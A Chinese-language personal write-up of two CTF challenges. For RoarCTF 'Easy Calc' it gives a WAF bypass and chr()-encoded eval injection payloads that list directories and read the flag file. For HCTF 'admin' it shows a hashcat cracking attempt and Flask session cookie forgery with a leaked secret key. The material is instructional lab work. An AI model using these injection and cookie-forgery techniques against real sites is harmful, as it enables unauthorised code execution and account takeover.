



刷题刷题！

buuoj

## [RoarCTF 2019]Easy Calc

题目说是“简单的计算器”，先来试试输入计算式会发生什么吧！

似乎真的是一个计算器而已，输入算式（无需带等号）就会给出结果，而且：

- 可以输入很大的整数，结果太大的时候会用科学计数法来表示
- 可以输入小数
- 当输入的不是算式时会alert("这啥?算不来!") (如果算式中带空格也会)
- 可以用括号构成算式
- 除以0会输出"INF"

F12检查源代码，有两段比较在意的东西：

```html
<!--I've set up WAF to ensure security.-->

<script>
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
</script>
```

`$("#content").val()`的含义：获取id为content的html标签元素的值，`$("#content")`其实就相当于document.getElementById("content"),`.val()`就相当于.value()

提交的表单叫`#calc`，触发submit事件之后发起ajax请求并把输入内容作为参数传给calc.php。

`encodeURIComponent(...)`把输入内容做 URL 编码，防止特殊字符导致请求异常。

从这段代码里我们知道根路由下应该有一个calc.php用于计算算式，果然能直接找到：

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?> 
```

作者说他已经set了WAF(Web Application Firewall)，看来就是在calc.php里的这个黑名单过滤，也不知道还有没有别的。

主要的利用点在于eval()，其会把传入的(code)参数作为php代码，这是一个很大的RCE漏洞。

试着直接在calc.php处传入num参数，发现只有在Num传入一个数字的时候才能正常echo出来，其他情况下都会报错Forbidden403，包括16进制的1a也不行。





**403Forbidden**说明服务器理解了我的请求，但是拒绝执行，通常因为权限不足或被策略拦截。因为没有触发黑名单，所以看来是在服务器端有一些别的过滤手段我还没有找到。

PS:waf的实现不一定在php代码中实现，比如这里，因为我输入a\也会直接forbidden，说明是请求应该先被转发到了一个外部的waf,进行了检测（比如这里应该限制输入是数字）再发真正的请求。

> 这就涉及到一种特殊的waf绕过：利用空格绕过！
> 我们平时在url里传GET参数都是?num=xxx，但是实际上，就算我们用? num=xxx，php也会自动去掉前面的空格(%20)来解析，parse出来还是num，但是对于waf来说这就是一个全新的参数" num"，这样就管不着了！

于是传入`? num=1;phpinfo()`，成功打印出php版本信息！

看disable_functions一栏可以看禁用的函数：

passthru,exec,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server,chdir,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,putenv,opendir,imap_open,mail,imap_mail,ini_set,apache_setenv,link,

shell_exec和system都被禁用，真是头大...

这个时候就用几个php原生的函数吧！

> scandir scandir('/path/to/dir') 返回指定目录下所有文件和文件夹名的数组。
> 示例输出：Array ( [0] => . [1] => .. [2] => index.php [3] => flag.txt )

> var_dump($variable); 输出变量的类型和详细结构（值当然也输出）
> 示例输出：string(5) "hello", array(2) { [0]=> int(1) [1]=> string(3) "abc" }

> file_get_contents('/path/to/file') $content = file_get_contents('/path/to/file'); 作用：读取指定文件的全部内容并返回为字符串。
> 适用于读取文本文件、网页内容等。如果文件不存在或不可读，返回 false。

至于blacklist的正则匹配过滤，我们只需要用chr()拼接就可以！

在参数的位置，我们可以用chr().chr()来拼出任何字符串

先查根目录：

?%20num=1;var_dump(scandir(chr(47)))



找到一个目录f1agg：

?%20num=1;var_dump(scandir(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103).chr(47)))

返回false，说明flagg是一个文件！那直接读取：

?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

得到flag!

真是学了好多新东西啊...

## [HCTF 2018]admin

F12查看代码，提示我们要以admin的身份登录，

注意到旁边有Register选项，想着自己注册一个admin账号，却发现admin已经被注册了

随便注册一个账号进入，发现右边多了Change passwd的选项，

仔细审计每一个页面的源码，在修改密码界面的源码发现作者留下了源码的github地址，虽然打不开，但也能猜到是作者github名字改了，于是直接搜仓库名字就能搜到。

在github界面仓库内搜索admin关键字，找到两个位置。

第二个位置是：

```sql
INSERT INTO `user` (`id`, `email`, `password_hash`, `username`) VALUES
(1, NULL, 'pbkdf2:sha1:1000$HHGfbouP$eaa88f64aad0dd3f81a72c16337c03cd1bdc6be1', 'admin'),
(2, NULL, 'pbkdf2:sha1:1000$ErwOESOB$f61a07b6836fab26e885f0dd5419b0f75ea5bf96', 'ckj123');
```

似乎直接记录了admin的password_hash，试图用hashcat暴力破解：

hashcat -m 120 hash.txt rockyou.txt

（hashcat我放在F:\app\目录了）其中hash.txt中的sha1哈希格式要转化为hashcat可读的：

eaa88f64aad0dd3f81a72c16337c03cd1bdc6be1:HHGfbouP:1000

hash:salt:length格式的可读sha1哈希。

可惜的是，最后没能跑出来结果......

再看看第一个位置：



看来我们要保证session的name项是admin就可以做到身份认证，最自然的果然是想到cookie伪造，于是我们先在外面随意创建的账号出用bs抓包来看看cookie：

因为网站框架是Flask，Cookie的生成方式是通过session:

Flask 默认 session cookie（当未配置服务器端 session）采用 itsdangerous 库进行序列化、压缩和签名。典型结构如下：

session=<payload>.<timestamp>.<signature>

- payload：序列化后的 session 数据，通常经过 zlib 压缩和 base64 编码。
- timestamp：base64 编码的时间戳（可选，部分配置有）。
- signature：使用服务器 secret key 和 HMAC-SHA1/SHA256 算法生成的签名，防止 cookie 被客户端篡改。

我们的默认账号的cookie是：

Cookie: session=.eJw9kMFqg0AURX-lvLULNboRsmiYKBbeE2XMMLOR1projJOCJlQN-fcOWXR574UD5z6gOU_d3ENym-6dB83wDckD3r4gAeTok_7oyeabFNRTeNxhlvbSkla2shhiILd0RJdQlBHp1keWGsVHTSwdKMyXgpPFrVwUbzfUB9ed-oLli2JyJXEyyC6r0mVMzMSoR0NZZSisV8nzHbE6xi1faass8Toq-KF3-yhtHipb-4WoFxRKI2v38PSgnadzc_sx3fVfQVpliF9Ch_cVrwbMMCiEXCTHiBgZtMrpydWp_hZCjVIcfXzfv3DXT9s5RBCAB_e5m17XQODD8w9jSWPh.aPe23w.QX_Vbf9uWGUazaveaBODxYHGMgE

利用妙妙工具flask_session_cookie_manager我们可以解析这串cookie如下：

b'{"_fresh":true,"_id":{" b":"MTM0NjJhNmIzYWNhN2E3MGFhYmNjZmRmM2M1YzFlMjZmMWQ4Njc0MDFkZTljNDFiN2IxOTNmMzQxZTczMjBiN2VhODIxZDYyNWVkMDgyZjQ5NDk5MjlkNGRkN2UyYTI3NDU5MzIyNzRmNTU4OTBhNGRlYmI2ZmU0OWUxMWZjMDc="},"csrf_token":{" b":"YmZkNTg2NDk0ZTRiMGM1OWYxYTM4NDNkMmZhNmYyMTMwOWZlYWE0MA=="},"name":"11","user_id":"10"}'

妙妙工具由pip包管理，装在conda虚拟环境web-exp中，进入F:\app\目录下的对应git仓库运行：

python flask_session_cookie_manager3.py decode -c "<session的值>"

就可以成功解析。

类似的，为了使得name解析出来是admin，我们再用这个工具加密一下：

python flask_session_cookie_manager3.py encode -s <salt> -t "<原序列>"

盐我们可以在git库中的config.py找到，是"ckj123"。

具体就是：

```
python flask_session_cookie_manager3.py encode -s "ckj123" -t "{'_fresh':True,'_id':{'b':'MTM0NjJhNmIzYWNhN2E3MGFhYmNjZmRmM2M1YzFlMjZmMWQ4Njc0MDFkZTljNDFiN2IxOTNmMzQxZTczMjBiN2VhODIxZDYyNWVkMDgyZjQ5NDk5MjlkNGRkN2UyYTI3NDU5MzIyNzRmNTU4OTBhNGRlYmI2ZmU0OWUxMWZjMDc='},'csrf_token':{'b':'YmZkNTg2NDk0ZTRiMGM1OWYxYTM4NDNkMmZhNmYyMTMwOWZlYWE0MA=='},'name':'admin','user_id':'1'}"
```

输入的原序列要修改：整体用""包裹，内部则是只使用单引号的一个标准python-dict格式

得到输出：

```
.eJw1kMGKgzAURf_lrV1YWzeFLqakigPviRIbkk1pra0mxgFtGU3pv08ozPLeCwfOfcHpNjZTC9vH-GwCOHVX2L7gAltAjiHp75Zs5qSglqLDGtOklZa0sqXFCFfSJT36hKLYkK5DZIlRvNfEko6ibM45WXTFrHjtUO99d2xzls2KyYXE0SC7L0oXMTETo-4NpaWhqFokz9bEqhhdtpArLfFqk_N96_de2ixStgpzUc0olEZW7-AdQD2Nt9PjxzTDv4G0yhC_R54eKl52mOIqF3KWHDfEyKBV3k4u3vQ3F6qX4hDi1-5DG8628Yjz1XYDBPCcmvHzDazg_Qe8GWUY.aPe3ZA.GnLYRNRpESvDMrGpC6UgklfhdvE
```

在repeater中用这段cookie进行替换，访问index页，即可得到flag!!!

关于网页cookie的欺骗还可以有很多内容，值得研究！

## Conclusion

现在是2025年10月22日00:46:13，好困啊，我要睡觉了，今晚居然只做了两题嘛！


